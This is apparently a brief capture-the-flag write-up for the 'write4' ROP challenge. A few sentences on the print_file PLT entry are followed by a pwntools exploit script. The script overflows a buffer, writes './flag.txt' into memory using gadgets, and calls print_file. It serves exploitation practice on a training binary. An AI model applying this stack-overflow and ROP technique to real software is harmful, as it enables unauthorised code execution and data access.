


there exist a literal argument named print_file in plt and no pie is presented


inspecting print_file reveals that the function only take an argument, which is the file path






paired with a few notable gadget and the challenge should be a cakewalk

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./write4")

context.binary = exe
context.log_level = "debug"

script = '''
b*pwnme+150
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    pop_rdi=0x0000000000400693
    pop_r14_pop_r15=0x0000000000400690
    mov_Ir14I_r15=0x0000000000400628
    buffer=b"A"*0x28

    payload=flat(
        buffer,
        pop_r14_pop_r15,
        0x601800,
        0x742E67616C662F2E,
        mov_Ir14I_r15,
        pop_r14_pop_r15,
        0x601808,
        0x7478,
        mov_Ir14I_r15,
        pop_rdi,
        0x601800,
        exe.plt["print_file"]
    )

    time.sleep(0.1)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()


```